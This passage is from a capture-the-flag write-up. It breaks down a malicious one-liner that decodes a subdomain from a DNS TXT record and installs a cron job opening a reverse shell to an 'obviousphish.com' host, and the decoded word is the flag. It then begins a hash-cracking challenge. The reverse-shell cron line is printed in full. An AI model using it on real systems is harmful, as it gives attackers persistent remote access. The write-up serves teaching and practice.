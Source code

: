 Wow! A lot is happening here. Let's break it down.

1. The `dig` command queries a TXT record for the domain `llanfairpwllgwyngyllgogerychwyrndrobwyllllantysiliogogogoch.obviousphish.com`. The `+short` flag only prints the answer section of the response. The `tr` command deletes the double quotes. The `base64` command decodes the base64 encoded string. The decoded string is then assigned to the variable `subdomain`.

2. `crontab -l > .tab` lists the current cronjobs and redirects the output to a file called `.tab`. 

3. `echo "2 * * * * /bin/bash -l > /dev/tcp/$subdomain.obviousphish.com/4242 0<&1 2>&1" >> .tab` appends a cronjob that runs every 2 minutes. The cronjob executes `/bin/bash -l > /dev/tcp/$subdomain.obviousphish.com/4242 0<&1 2>&1`. This command opens a bash shell that redirects the input and output to the TCP port 4242 on the domain `$subdomain.obviousphish.com`. 

4. `crontab .tab` installs the cronjob.

5. The `rm .tab` command removes the `.tab` file.

If we execute the command in step 1, we get the following subdomain.

```shell
$ dig +short TXT llanfairpwllgwyngyllgogerychwyrndrobwyllllantysiliogogogoch.obviousphish.com | tr -d '"' | base64 -di
hippopotomonstrosesquippedaliophobia
```

Apparently, this is a single English word!

> Hippopotomonstrosesquippedaliophobia refers to the phobia or fear of long words. Feelings of shame or fear of ridicule for mispronouncing long words may cause distress or anxiety.

The flag thus being `hippopotomonstrosesquippedaliophobia`. 

## Day 20: Cursed is the new black

Today we are given an URL where we are presented with a hash and a password field. The challenge seems to be about cracking the hash and submitting the password. There are multiple steps, and the difficulty increases with each step.
